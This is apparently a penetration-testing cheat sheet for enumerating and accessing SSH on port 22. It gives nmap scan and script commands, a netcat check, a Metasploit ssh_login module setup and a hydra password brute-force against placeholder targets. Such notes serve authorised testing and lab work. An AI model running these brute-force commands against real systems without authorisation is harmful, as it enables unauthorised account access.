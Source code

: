 # SSH Enumeration & Access (TCP/22)

## Nmap

sudo nmap -p22 -sV -sC -O <TARGET_IP>
nmap -p22 --script ssh2-enum-algos <TARGET_IP>
nmap -p22 --script ssh-hostkey --script-args ssh_hostkey=full <TARGET_IP>
nmap -p22 --script ssh-auth-methods --script-args="ssh.user=<USER>" <TARGET_IP>
nmap -p22 --script=ssh-brute --script-args userdb=<USERS_LIST> <TARGET_IP>

Connect / Netcat sanity

nc -v <TARGET_IP> 22
ssh <USER>@<TARGET_IP>
Metasploit

use auxiliary/scanner/ssh/ssh_login
set RHOSTS <TARGET_IP>
set USERPASS_FILE /usr/share/wordlists/metasploit/root_userpass.txt
set STOP_ON_SUCCESS true
run

Brute (scoped)

hydra -l <USER> -P /usr/share/wordlists/rockyou.txt <TARGET_IP> ssh

